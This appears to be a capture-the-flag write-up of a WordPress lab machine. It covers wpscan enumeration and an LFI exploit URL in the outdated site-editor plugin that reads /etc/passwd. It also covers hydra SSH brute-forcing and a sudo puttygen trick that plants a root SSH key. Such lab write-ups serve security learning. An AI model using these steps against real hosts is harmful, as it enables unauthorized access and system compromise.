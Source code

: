```yaml
---
sticker: emoji//1f36c
---
```

# ENUMERATION


## OPEN PORTS

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031135702.png)
2 open ports, one is a website and the other is ssh, let's fuzz the website

## FUZZING

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031135726.png)

Seems like a WordPress page, let's take a look at it:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031135814.png)

First part seems off, let's look at the source code:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031135908.png)

Nothing too weird, let's save it in case we need it further, now, let's take a look at 
`wp-login.php`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031140023.png)

We need to add `asucar.dl` to `/etc/hosts`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031140104.png)


Knowing that the site uses WordPress, let's use `wpscan` to enumerate the website:


```ad-hint

##### USED COMMAND

`wpscan --url http://asucar.dl/ --random-user-agent`

##### OUTPUT

[+] URL: http://asucar.dl/ [172.17.0.2]
[+] Started: Thu Oct 31 19:12:55 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.59 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://asucar.dl/xmlrpc.php
 | Found By: Link Tag (Passive Detection)
 | Confidence: 100%
 | Confirmed By: Direct Access (Aggressive Detection), 100% confidence
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://asucar.dl/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://asucar.dl/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://asucar.dl/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.5.3 identified (Insecure, released on 2024-05-07).
 | Found By: Rss Generator (Passive Detection)
 |  - http://asucar.dl/index.php/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>
 |  - http://asucar.dl/index.php/comments/feed/, <generator>https://wordpress.org/?v=6.5.3</generator>

[+] WordPress theme in use: twentytwentyfour
 | Location: http://asucar.dl/wp-content/themes/twentytwentyfour/
 | Last Updated: 2024-07-16T00:00:00.000Z
 | Readme: http://asucar.dl/wp-content/themes/twentytwentyfour/readme.txt
 | [!] The version is out of date, the latest version is 1.2
 | [!] Directory listing is enabled
 | Style URL: http://asucar.dl/wp-content/themes/twentytwentyfour/style.css
 | Style Name: Twenty Twenty-Four
 | Style URI: https://wordpress.org/themes/twentytwentyfour/
 | Description: Twenty Twenty-Four is designed to be flexible, versatile and applicable to any website. Its collecti...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://asucar.dl/wp-content/themes/twentytwentyfour/style.css, Match: 'Version: 1.1'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | Last Updated: 2017-05-02T23:34:00.000Z
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 


```

So, important info would be the following:

```ad-important

1. Apache/2.4.59 server(DEBIAN)
2. XML-RPC enabled and directory listing enabled for `http://asucar.dl/wp-content/uploads`
3. Site uses wordpress 6.5.3  with the `twentytwentyfour` theme.
4. `site-editor` plugin not updated running version 1.1
```


# EXPLOITATION


So, once we've enumerated all the info in the WordPress website, let's begin with exploitation, first, let's use `searchsploit` to lookup any exploit regarding that site editor version:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031142025.png)

Nice, we got a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]]regarding this version, let's take a look at the exploit:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031142212.png)

So, the usage would be:

```ad-important

# USAGE

`http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

# asucar.dl exploitation:

`http://asucar.dl/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd`

```


Let's exploit it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031142325.png)

Nice, we were able to execute the [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI)|LFI]], we found user `curiosito`

Let's use hydra and try to bruteforce the ssh login:


```ad-hint

##### USED COMMAND

`hydra -l curiosito -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

##### OUTPUT

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031142628.png)


```

Simple password, seems like the user didn't have that much security, let's log in to ssh:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031142733.png)

Nice, we can begin with PRIVESC




# PRIVILEGE ESCALATION



## SUDO -L

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031142756.png)

We can run `puttygen`, `puttygen` is used to generate ssh keys, let's generate one for root user:

```ad-hint

##### USED


`puttygen -t rsa -b 2048 -O private-openssh -o ~/.ssh/hacked`

`puttygen -L ~/.ssh/hacked » ~/.ssh/authorized_keys`

`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/hacked
`
`sudo puttygen /home/curiosito/.ssh/hacked -o /root/.ssh/authorized_keys -O public-openssh`

`ssh -i /home/curiosito/.ssh/hacked root@localhost`


##### OUTPUT

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241031143301.png)


```



And that would be it for this CTF!

